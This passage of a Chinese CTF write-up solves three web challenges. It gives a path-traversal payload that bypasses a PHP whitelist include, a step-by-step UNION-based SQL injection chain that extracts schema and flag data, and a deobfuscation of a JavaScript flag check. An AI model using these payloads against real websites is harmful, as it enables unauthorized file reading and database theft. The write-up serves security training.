 ```php
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> 
```
![](https://img-blog.csdnimg.cn/20200322212910764.png)
第一个if是对$page变量进行检验，要求是字符串，否则的话返回false，

第二个if是判断\$page是否在规定的白名单数组里面；如果在的话返回true；接着截取\$page的 ? 之前的内容进行查看，判断其是否在$whitelist中，如果在的话，返回true，不在的话返回false；然后对\$page进行url解码，解码之后再继续截取 ? 之前的内容，判断是否在$whitelist数组之中，如果在的话返回true，否则返回false；都通过以后，就会包含file；

这里我们构造payload `?file=source.php?../../../../../../ffffllllaaaagggg`(因为我们不知道具体的位置，所以我们只能目录跃迁进行尝试)然后得到flag
![](https://img-blog.csdnimg.cn/20200322213258508.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
参考：[[HCTF 2018]WarmUp](https://www.cnblogs.com/Wanghaoran-s1mple/p/12465770.html)
## NewsCenter
没有过滤的sql注入，直接union select即可

```sql
得到news：
' and 0 union select 1,database(),3# 
得到secret_table:
' and 0 union select 1,table_schema,table_name from information_schema.columns #
得到fl4g：
' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table'#
得到flag：
' and 0 union select 1,2,fl4g from secret_table #
```
![](https://img-blog.csdnimg.cn/20200322215005964.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## NaNNaNNaNNaN-Batman
下载附件，发现是js代码，但很混乱，发现最后有个eval()函数执行行了前面的_函数，将eval()改为alert()，改为.html即可弹出源代码
![](https://img-blog.csdnimg.cn/202003231522379.png)
整理后得：
```javascript
function $() {
    var e = document.getElementById("c").value;
    if (e.length == 16) if (e.match(/^be0f23/) != null) if (e.match(/233ac/) != null) if (e.match(/e98aa$/) != null) if (e.match(/c7be9/) != null) {
        var t = ["fl", "s_a", "i", "e}"];
        var n = ["a", "_h0l", "n"];
        var r = ["g{", "e", "_0"];
        var i = ["it'", "_", "n"];
        var s = [t, n, r, i];
        for (var o = 0; o < 13; ++o) {
            document.write(s[o % 4][0]);
            s[o % 4].splice(0, 1)
        }
    }
}
document.write('<input id="c"><button onclick=$()>Ok</button>');
delete _
```
将数组拼接起来即是flag：`flag{it's_a_h0le_in_0ne}`
或者运行js代码得到一个弹窗，输入数字要满足条件如下：
1. 长度为16
2. 以be0f23开头
3. 以e98aa结尾
4. 包含233ac